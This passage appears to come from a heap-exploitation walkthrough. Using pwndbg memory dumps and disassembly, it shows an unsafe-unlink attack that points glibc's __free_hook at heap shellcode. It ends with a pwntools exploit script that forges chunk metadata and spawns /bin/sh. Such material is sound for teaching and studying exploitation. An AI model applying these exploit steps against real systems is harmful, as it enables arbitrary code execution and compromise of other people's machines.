 ```
$2 = (void (**)(void *, const void *)) 0x7ffff7dd67a8 <__free_hook>
```

Continue execution, free b chunk and visualize the heap ...

```
pwndbg> vis

0x555555757000	0x0000000000000000	0x0000000000021001	................	 <-- Top chunk

```

But it was first consolidated with chunk A, then consolidated into top chunk afterwards.

Dumping the memory that the free hook points to reveals that it's pointing to our shell code on the heap.

## Second half of unlinking procedure 

Our BK was followed and our FD copied over the FD at its destination.

```
pwndbg> dq __free_hook 10
0000555555757020     90909090909016eb 9090909090909090
0000555555757030     00007ffff7dd6790 010101010101b848
0000555555757040     68632eb848500101 0431480169722e6f
0000555555757050     f631d231e7894824 000000050f583b6a
0000555555757060     0000000000000000 0000000000000000
```
An problem is that our FD has been written into the middle of our shellcode.

Fortunely by disassembling the first part of our shellcode with the 'u' command, we see that this
shellcode already accounts for this by using its first two bytes to jump over the corruption.

```
pwndbg> u __free_hook
 ► 0x555555757020    jmp    0x555555757038                <0x555555757038>
 
   0x555555757022    nop 
   0x555555757023    nop 
   0x555555757024    nop 
   0x555555757025    nop 
   0x555555757026    nop 
   0x555555757027    nop 
   0x555555757028    nop 
   0x555555757029    nop 
   0x55555575702a    nop 
   0x55555575702b    nop
```

## Prepare exploit

```
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

fd = libc.sym.__free_hook - 0x18
bk = heap+0x20
prev_size = 0x90
fakse_size = 0x90
edit( chunk_a, p64(fd)+p64(bk)+shellcode+ p8(0)*(0x70-len(shellcode))+p64(prev_size)+p64(fakse_size) )
free(chunk_b)
free(chunk_a)

```